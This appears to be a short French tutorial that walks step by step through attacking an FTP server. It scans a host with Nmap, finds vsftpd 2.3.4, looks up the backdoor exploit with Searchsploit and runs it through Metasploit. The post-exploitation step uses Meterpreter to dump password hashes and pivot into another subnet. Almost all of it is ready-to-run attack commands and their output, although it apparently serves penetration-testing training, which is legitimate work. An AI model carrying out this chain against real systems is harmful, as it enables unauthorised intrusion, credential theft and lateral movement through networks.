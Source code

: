 1. **Scan avec Nmap**

```bash
# Scan détaillé avec détection de version
sudo nmap -sS -sV -p- 192.168.1.10 -oX scan.xml
```

Résultat :
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

2. **Recherche d'exploits avec Searchsploit**

```bash
# Recherche directe
searchsploit vsftpd 2.3.4

# Ou utilisation du fichier XML de Nmap
searchsploit --nmap scan.xml
```

Résultat :
```
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution     | unix/remote/17491.rb
---------------------------------------------- ---------------------------------
```

3. **Exploitation avec Metasploit**

```bash
# Lancer Metasploit
sudo msfconsole

# Rechercher l'exploit
msf6 > search vsftpd 2.3.4

# Utiliser l'exploit
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# Configurer l'exploit
msf6 > set RHOSTS 192.168.1.10
msf6 > set RPORT 21

# Exécuter l'exploit
msf6 > exploit
```

4. **Post-exploitation**

```bash
# Une fois l'accès obtenu, collecter des informations
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump

# Pivotement dans le réseau
meterpreter > run autoroute -s 192.168.2.0/24
```
